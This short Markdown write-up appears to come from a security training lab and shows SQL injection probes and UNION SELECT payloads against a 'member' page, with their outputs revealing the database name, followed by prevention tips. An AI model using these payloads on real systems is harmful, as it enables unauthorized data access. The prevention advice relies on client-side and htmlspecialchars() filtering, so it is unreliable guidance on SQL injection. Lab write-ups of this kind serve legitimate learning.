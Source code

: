 # SQL Injection Member page
Page: http://10.13.200.53/?page=member

## SQL
Basic SQL injection test:

`1 == 1`

**Result**: `You have an error sin your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '= 1' at line 1`

`1 UNION SELECT 1,2`
**Result**: 
```
ID: 1 UNION SELECT 1,2 
First name: one
Surname : me
ID: 1 UNION SELECT 1,2 
First name: 1
Surname : 2
```

**Database name:**
```
ID: 0 UNION SELECT 1,database()
First name: 1
Surname : Member_Sql_Injection
```

## How to prevent SQL injection
### Client Side (JQUERY)
- Input sanitization, before sending any data to the server
- Use input masks to restrict user input to specific formats.



### Server side (PHP)
- Use ORM
- Input validation and sanitization with php functions like:
    - `filter_var()`
    - `htmlspecialchars()`

